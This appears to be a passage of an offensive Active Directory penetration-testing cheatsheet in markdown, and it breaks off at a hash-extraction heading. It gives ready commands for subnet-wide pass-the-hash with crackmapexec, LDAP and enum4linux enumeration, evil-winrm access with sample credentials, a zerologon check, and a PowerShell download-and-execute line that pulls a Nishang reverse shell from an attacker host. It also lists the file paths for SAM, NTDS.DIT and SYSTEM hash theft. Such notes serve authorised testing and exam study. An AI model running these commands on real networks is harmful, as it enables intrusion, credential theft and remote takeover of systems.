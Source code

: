 - attempt to authenticate each machine in the subnet with the username and hash provided: `crackmapexec <protocol> <ip>/24 -u <user> -H <hash> --local`
- example: `crackmapexec 192.168.57.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b -- local`
- NOTE: #--local: This flag specifies that you're attempting to authenticate against local accounts on the target machine, rather than domain accounts.


## Tool 2:LdapDomainDump
- Download: `git clone https://github.com/dirkjanm/ldapdomaindump`
- got ldap dump: `python3 ldapdomaindump.py --user DOMAIN\\username -p Password12345 ldap://x.x.x.x:389 --no-json --no-grep -o data`
- find Domain admin `DONT_REQ_PREAUTH` -> crack hash offline

## Tool 3:enum4linux
- Built-in in kali linux
- Full target AD info: `enum4linux -u ippsec -p Password12345 -a 192.168.1.50`
- Provides Domain SID, passwords of some users, share enumerations

## Tool 4: evil-winrm
- remote access tool: `evil-winrm -i 192.168.194.165 -u enox -p california`      

# Persistence

## Quick wins
- https://github.com/yovelo98/OSCP-Cheatsheet?tab=readme-ov-file#from-cve-to-system-shell-on-dc 
- Check zerologon: crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon 

## Using crackmapexec
- Reverse shell: [Edit this from Kali to Windows](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
- Transfer to windows: `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'iex(New-Object Net.WebClient).DownloadString("http://192.168.223:8000/Invoke-PowerShellTcpOneLine.ps1")'`
- Reverse shell script will autorun upon transfer

# Password-based and Hash-based attack
## Extracting hashes

         SAM - Security Account Manager (Store as user accounts)  %SystemRoot%/system32/config/sam  
         NTDS.DIT (Windows Server / Active Directory - Store AD data including user accounts) %SystemRoot%/ntds/ntds.dit  
         SYSTEM (System file to decrypt SAM/NTDS.DIT)  %SystemRoot%/system32/config/system  
         Backup - Sistemas antigos como XP/2003: C:\Windows\repair\sam and C:\Windows\repair\system

## Extracting Hashes in cache
